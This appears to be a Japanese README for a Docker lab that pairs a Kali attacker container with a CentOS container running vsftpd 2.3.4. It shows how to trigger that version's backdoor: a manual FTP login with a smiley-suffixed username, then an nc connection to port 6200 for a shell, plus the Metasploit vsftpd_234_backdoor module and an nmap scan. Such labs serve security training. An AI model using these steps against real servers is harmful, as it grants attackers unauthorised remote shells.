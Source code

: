 ## 狙いの脆弱性
`exploit/unix/ftp/vsftpd_234_backdoor`
(http://www.intellilink.co.jp/article/vulner/110706.html)

## 環境構築
```
docker-compose build
docker-compose up -d
```
以上で、attacker(kali-linux)とpot(centos)コンテナが立ち上がります。

また、
`docker-compose exec コンテナ名 bash`
を実行すると各コンテナのbashに入れます

ちょっと自動化できなかった部分があるので、各コンテナで以下のファイルのコマンドを実行してください。
### attacker
`commands/db_init`
### pot
`commands/vsftpd_start`

## pot側で使えるコマンド例
vsftpd(ftpサーバー)が立ち上がります
```
ifconfig # アドレス確認
netstat -tanp # 使用中のポート番号確認
```

### 自分でコマンドから攻撃
```
[root@af9a3aa43de2 vsftpd-2.3.4]# ftp localhost
Name (localhost:root): aaaa:) # 任意の文字列+:)
331 Please specify the password.
Password: # 入力なしで
# 以下別のシェルで
[root@af9a3aa43de2 vsftpd-2.3.4]# netstat -na | grep LISTEN | grep tcp # tcp 6200番が開いたことを確認
nc -nv 172.28.0.2 6200 # pot側のアドレス
# 以下からシェルが使えることを確認
```

## attacker側で使えるコマンド例
msfconsoleが使えます

```
ifconfig # アドレス確認
nmap -sS -A 172.28.0.2 # potで開いてるポートの確認(pot側のアドレス)
```

### 攻撃時
```
root@93bb602c36d3:/# msfconsole
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 172.28.0.2
(↑pot側のアドレス)
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run
```
